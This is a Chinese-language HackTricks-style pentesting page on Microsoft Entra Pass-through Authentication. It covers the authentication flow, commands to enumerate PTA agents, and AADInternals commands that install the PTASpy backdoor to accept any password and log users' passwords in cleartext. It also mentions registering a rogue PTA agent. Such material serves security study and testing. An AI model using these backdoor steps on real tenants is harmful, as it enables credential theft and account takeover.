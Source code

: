 # Az - PTA - Pass-through Authentication

{{#include ../../../../banners/hacktricks-training.md}}

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-pta) Microsoft Entra 透传身份验证允许您的用户使用相同的密码**登录本地和基于云的应用程序**。此功能为您的用户提供了更好的体验——记住的密码减少了一次，并且降低了 IT 帮助台的成本，因为您的用户不太可能忘记如何登录。当用户使用 Microsoft Entra ID 登录时，此功能会直接针对您的本地 Active Directory 验证用户的密码。

在 PTA 中，**身份**是**同步**的，但**密码**不像 PHS 那样。

身份验证在本地 AD 中验证，与云的通信由在**本地服务器**上运行的**身份验证代理**完成（它不需要在本地 DC 上）。

### 身份验证流程

<figure><img src="../../../../images/image (92).png" alt=""><figcaption></figcaption></figure>

1. 为了**登录**，用户被重定向到**Azure AD**，在这里他发送**用户名**和**密码**
2. **凭据**被**加密**并放入 Azure AD 中的**队列**
3. **本地身份验证代理**从队列中收集**凭据**并**解密**它们。这个代理被称为**“透传身份验证代理”**或**PTA 代理**。
4. **代理**将凭据与**本地 AD**进行**验证**，并将**响应****返回**给 Azure AD，如果响应是积极的，**完成用户的登录**。

> [!WARNING]
> 如果攻击者**破坏**了**PTA**，他可以**查看**队列中的所有**凭据**（以**明文**形式）。\
> 他还可以**验证任何凭据**到 AzureAD（类似于 Skeleton key 的攻击）。

### 枚举

来自 Entra ID:
```bash
az rest --url 'https://graph.microsoft.com/beta/onPremisesPublishingProfiles/authentication/agentGroups?$expand=agents'
# Example response:
{
"@odata.context": "https://graph.microsoft.com/beta/$metadata#onPremisesPublishingProfiles('authentication')/agentGroups(agents())",
"value": [
{
"agents": [
{
"externalIp": "20.121.45.57",
"id": "4a000eb4-9a02-49e4-b67f-f9b101f8f14c",
"machineName": "ConnectSync.hacktricks-con.azure",
"status": "active",
"supportedPublishingTypes": [
"authentication"
]
}
],
"displayName": "Default group for Pass-through Authentication",
"id": "d372d40f-3f81-4824-8b9e-6028182db58e",
"isDefault": true,
"publishingType": "authentication"
}
]
}
```
检查代理是否在本地服务器上运行：
```bash
Get-Service -Name "AzureADConnectAuthenticationAgent"
```
## Pivoting

如果您对运行 **PTA** **agent** 的 **Azure AD Connect server** 拥有 **admin** 访问权限，您可以使用 **AADInternals** 模块 **插入后门**，该后门将 **验证所有输入的密码**（因此所有密码都将有效用于身份验证）：
```bash
Install-Module AADInternals -RequiredVersion 0.9.3
Import-Module AADInternals
Install-AADIntPTASpy # Install the backdoor, it'll save all the passwords in a file
Get-AADIntPTASpyLog -DecodePasswords # Read the file or use this to read the passwords in clear-text

Remove-AADIntPTASpy # Remove the backdoor
```
> [!NOTE]
> 如果**安装失败**，这可能是由于缺少 [Microsoft Visual C++ 2015 Redistributables](https://download.microsoft.com/download/6/A/A/6AA4EDFF-645B-48C5-81CC-ED5963AEAD48/vc_redist.x64.exe)。

这个后门将会：

- 创建一个隐藏文件夹 `C:\PTASpy`
- 复制一个 `PTASpy.dll` 到 `C:\PTASpy`
- 将 `PTASpy.dll` 注入到 `AzureADConnectAuthenticationAgentService` 进程中

> [!NOTE]
> 当 AzureADConnectAuthenticationAgent 服务被重启时，PTASpy 会被“卸载”，必须重新安装。

> [!CAUTION]
> 在云中获得**GA权限**后，可以**注册一个新的PTA代理**，并且可以**重复**之前的步骤**使用任何密码进行身份验证**，并且**以明文获取密码**。

### Seamless SSO

可以使用 PTA 的 Seamless SSO，这对其他滥用是脆弱的。请查看：

{{#ref}}
seamless-sso.md
{{#endref}}

## References

- [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-pta](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-pta)
- [https://aadinternals.com/post/on-prem_admin/#pass-through-authentication](https://aadinternals.com/post/on-prem_admin/#pass-through-authentication)

{{#include ../../../../banners/hacktricks-training.md}}
